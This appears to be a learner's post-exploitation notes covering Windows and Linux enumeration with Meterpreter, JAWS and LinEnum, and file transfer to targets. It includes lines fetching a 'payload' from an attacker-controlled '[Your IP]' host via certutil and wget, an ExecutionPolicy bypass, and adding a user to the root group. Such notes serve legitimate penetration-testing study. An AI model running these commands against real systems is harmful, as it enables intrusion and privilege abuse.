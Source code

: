 # Post-Exploitation Methodology

![[Post-Exploitation Methodology.png]]

# Windows Local Enumeration

###### Enumerating System Information
- What are we looking for?
	- Hostname
	- OS Name (Windows 7, 8 etc)
	- OS Build & Service Pack (Windows 7 SP1 7600)
	- OS Architecture (x64/x86)
	- Installed updates/Hotfixes
- After getting access to system (meterpreter cmds)
	- `getuid`
	- `sysinfo`
	- `shell`  -- give windows / Linux shell
		- `hostname`
		- `systeminfo` -- display all info including hotfixes
		- `wmic qfe get Caption,Description,HotFixID,InstalledOn`
###### Enumerating Users & Groups
- What are we looking for?
	- Current user & privileges
	- Additional user information
	- Other users on the system
	- Groups
	- Members of the built-in administrator group
- After getting access to system (meterpreter cmds)
	- `getuid`
	- `getprivs`
	- `shell`  -- give windows / Linux shell
		- `whoami`
		- `whoami /priv`
		- `query user` - give currently logged on user
		- `net users` -- display all other accounts on the user
		- `net user [user name]` -- give all info about the user
		- `net localgroup` and `net localgroup [group name]` 
- `use post/windows/gather/enum_logged_on_users`
###### Enumerating Network Information
- What are we looking for?
	- Current IP address & network adapter
	- Internal networks
	- TCP/UDP services running and their respective ports
	- Other hosts on the network
	- Routing table
	- Windows Firewall state
- After getting access to system (meterpreter cmds)
	- `shell`  -- give windows / Linux shell
		- `ipconfig` or `ipconfig /all`
		- `route print`
		- `arp -a`
		- `netstat -ano` -- list all open ports
		- `netsh firewall show state` or `netsh advfirewall firewall`
###### Enumerating Processes & Services
- What are we looking for?
	- Running processes & services
	- Scheduled tasks
- After getting access to system (meterpreter cmds)
	-  `ps`
	- `pgrep explorer.exe` -- give pid of explorer.exe
	- `migrate PID` 
- After getting access to system (meterpreter cmds)
	- `shell`  -- give windows / Linux shell
		- `net start` or `wmic service list brief`  -- give list of started services
		- `tasklist /SVC` -- list the process and the services
		- `schtasks /query /fo LIST /v`
###### Automating Windows Local Enumeration
- `post/windows/gather/enum_applications`
- `post/windows/gather/enum_computers` -- enum the other systems that are connected to that network
- `post/windows/gather/enum_patches`
- [JAWS](https://github.com/411Hall/JAWS)
	- copy the the script and paste it in your system/lab (ctrl+shif+alt to paste on lab)
	- nav to `C:\Temp`
	- `upload /path/of/file/from/your/sytem` -- meterpreter cmd
	- `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`
	- `download JAWS-enum.txt` -- meterpreter cmd

# Linux Local Enumeration
###### Enumerating System Information
- What are we looking for?
	- Hostname
	- Distribution & distribution release version
	- Kernel version & architecture
	- CPU information
	- Disk information & mounted drives
	- Installed packages/software
- After getting access to system (meterpreter cmds)
	- `sysinfo`
	- `shell`  -- give windows / Linux shell`
		- `/bin/bash -i`
		- `cat /etc/issue` or `cat /etc/*release`
		- `uname -a`
		- `lscpu`
		- `free -h` -- if utility is installed it will give ram info
		- `df -h` -- disk info
		- `lsblk | grep sd` or `lsblk`  -- storage device info
		- `dpkg -l` -- for installed pkg
###### Enumerating Users & Groups
- What are we looking for?
	- Current user & privileges
	- Other users on the system
	- Groups
- After getting access to system (meterpreter cmds)
	- `getuid`
	-  `shell`  -- give windows / Linux shell`
		- `/bin/bash -i`
		- `whoami`
		- `groups [account name]`
		- `usermod -aG root bob` -- this will add bob to root group
		- `cat /etc/passwd`
		- `last` -- display last login user (legitimate login authentication)
		- `lastlog` -- to display list of user that have logged into the system
###### Enumerating Network Information
- What are we looking for?
	- Current IP address & network adapter
	- Internal networks
	- TCP/UDP services running and their respective ports
	- Other hosts on the network
- After getting access to system (meterpreter cmds)
	- `ifconfig`
	- `netstat`
	- `route`
	- `arp`
	-  `shell`  -- give windows / Linux shell`
		- `/bin/bash -i`
		- `ifconfig` or `ip a s` or `cat /etc/networks`
		- `hostname` or `cat /etc/hostname`
		- `cat /etc/hosts`
		- `cat /etc/resolv.conf` -- for dns info
		- `arp -a`
###### Enumerating Processes & Cron Jobs
- What are we looking for?
	- Running services
	- Cron Jobs
- After getting access to system (meterpreter cmds)
	- `ps`
	- `shell`  -- give windows / Linux shell`
		- `/bin/bash -i`
		- `ps aux`
		- `top`
		- `crontab -l` or `ls -la /etc/cron*`
###### Automating Linux Local Enumeration
- [LinEnum](https://github.com/rebootuser/LinEnum)
	- copy the the script and paste it in your system/lab (ctrl+shif+alt to paste on lab)
	- nav to `cd /tmp`
	- `upload /path/of/file/from/your/sytem` -- meterpreter cmd
	- `shell` then `/bin/bash -i`
	- `chmod +x LinEnum.sh` 
	- `./LinEnum.sh`

# Transferring Files
###### Setting Up A Web Server With Python
- Python comes with a built-in module known as SimpleHTTPServer(python2) and http.server (python3)
	- `python2 -m SimpleHTTPServer 80`
	- `python3 -m http.server 80`
###### Transferring Files To Windows Targets
- `python -m SimpleHTTPServer 80` -- on your machine
- `certutil -urlcache -f http://[Your IP]/payload.exe payload.exe` -- on attacker/victim machine
###### Transferring Files To Linux Targets
- `tmux` -- for multi terminal ]
	- `ctrl+B C` for new terminal
	- `ctrl+B [bash no 0 or 1 or 2 and so on]` - to switch between termianl
	- `exit` -- to close the terminal
- `python3 -m http.server 80`
- `wget htptp://[Your IP]/payload`